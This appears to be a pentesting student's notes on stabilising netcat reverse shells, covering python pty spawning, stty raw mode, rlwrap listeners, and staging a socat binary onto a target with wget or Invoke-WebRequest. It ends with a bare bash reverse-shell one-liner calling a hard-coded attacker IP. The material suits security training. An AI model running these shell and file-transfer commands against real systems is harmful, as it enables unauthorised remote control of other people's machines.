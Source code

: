 **Below we are discussing three techniques to stabilise netcat shell**

---
1. Technique 1: Python
- The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default.
- This is a three stage process:
	1. The first thing to do is use `python3 -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required.
		- At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
	2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
	3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things:
		- first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes).
		- It then foregrounds the shell, thus completing the process.
**The full technique can be seen here:**
![[shells5.png]]
**Note** - if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.  

---

2. Technique 2: rlwrap
	- rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, s_ome_ manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell.
	- rlwrap is not installed by default on Kali, so first install it with
```python
sudo apt install rlwrap
```

To use rlwrap, we invoke a slightly different listener:
```python
rlwrap nc -lvnp <port>
```

- This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise.
- When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

3.  Technique 3: Socat
	- The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell.
	- this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell.
	- To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine.
		- A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).
		- For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`)
**Changing your terminal tty size**
1. First, open another terminal and run `stty -a`. 
![[shells6.png]]
Note down the values for "rows" and columns:

2. Next, in your reverse/bind shell, type in:
`stty rows <number>`  

and

`stty cols <number>`

bash -i >& /dev/tcp/10.17.47.177/4444 0>&1

